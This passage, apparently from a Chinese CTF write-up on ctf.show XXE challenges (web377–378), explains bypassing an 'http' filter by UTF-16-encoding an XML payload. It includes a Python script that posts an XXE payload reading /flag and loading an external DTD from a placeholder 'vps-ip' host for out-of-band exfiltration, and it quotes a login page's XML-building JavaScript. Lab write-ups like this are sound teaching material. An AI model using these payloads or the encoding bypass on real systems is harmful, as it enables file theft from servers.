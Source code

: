 比之前几题多过滤了一个`http`

可以采用编码绕过，用脚本把web374的payload转为`utf-16`编码。

一个xml文档不仅可以用UTF-8编码，也可以用UTF-16(两个变体 - BE和LE)、UTF-32(四个变体 - BE、LE、2143、3412)和EBCDIC编码。

```python
import requests

url = 'http://a83196d0-7399-4a44-9601-23509c34a124.challenge.ctf.show/'

#注意这里是单引号，为了绕过过滤
payload = """<?xml version='1.0' encoding="UTF-8"?>
<!DOCTYPE hacker[
    <!ENTITY  % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
    <!ENTITY  % myurl SYSTEM "http://vps-ip/test.dtd">

    %myurl;
]> 

<root>
1
</root>
"""
payload = payload.encode('utf-16')
print(requests.post(url ,data=payload).text)
```

### [web378]

开题可见
![image-20230928221017789](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230928221017789.png)

抓包看一下，xxe无疑了
![image-20230928221050289](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230928221050289.png)

部分源码：

```php
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
```